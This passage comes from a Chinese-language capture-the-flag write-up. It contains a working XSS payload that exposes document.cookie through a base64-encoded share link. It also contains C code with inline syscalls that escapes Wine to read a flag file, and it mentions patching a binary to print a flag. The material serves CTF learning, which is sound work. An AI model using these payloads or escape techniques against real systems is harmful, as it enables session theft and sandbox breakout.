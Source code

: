 以及 `sub_401510` 就是输出 flag 的函数，把 114514 同样改掉。之后再运行就能得到 flag 了。

## 微积分计算小练习

简单 xss。

```python
> base64.b64encode(b'0:<img src=2 onerror=\'document.getElementById("greeting").innerHTML=document.cookie;\'>')
b'MDo8aW1nIHNyYz0yIG9uZXJyb3I9J2RvY3VtZW50LmdldEVsZW1lbnRCeUlkKCJncmVldGluZyIpLmlubmVySFRNTD1kb2N1bWVudC5jb29raWU7Jz4='
```

http://202.38.93.111:10056/share?result=MDo8aW1nIHNyYz0yIG9uZXJyb3I9J2RvY3VtZW50LmdldEVsZW1lbnRCeUlkKCJncmVldGluZyIpLmlubmVySFRNTD1kb2N1bWVudC5jb29raWU7Jz4=

## 杯窗鹅影

Wine 里面可以直接通过 `syscall` 来执行 Linux 的系统调用。

Flag1：

```c
#include <stdio.h>

char fn[100]="/flag1",buf[1001];
long long fd;

int main() {
    printf("Hello, world!\n");
    __asm volatile(
        "movq %1,%%rdi\n"
        "movq $2,%%rax\n"
        "movq $0,%%rsi\n"
        "movq $0,%%rdx\n"
        "syscall\n"
        "movq %%rax,%0\n"
        :"=r"(fd):"r"(fn):"rax","rsi","rdi","rdx"
    );
    printf("fd=%d\n",fd);
    printf("%02x%02x\n",(unsigned char)(buf[0]),(unsigned char)(buf[1]));
    __asm volatile(
        "movq %0,%%rsi\n"
        "movq %1,%%rdi\n"
        "movq $0,%%rax\n"
        "movq $1000,%%rdx\n"
        "syscall\n"
        ::"r"(buf),"r"(fd):"rax","rsi","rdi","rdx"
    );
    printf("%02x%02x\n",(unsigned char)(buf[0]),(unsigned char)(buf[1]));
    buf[1000]=0;
    puts(buf);
    return 0;
}
```
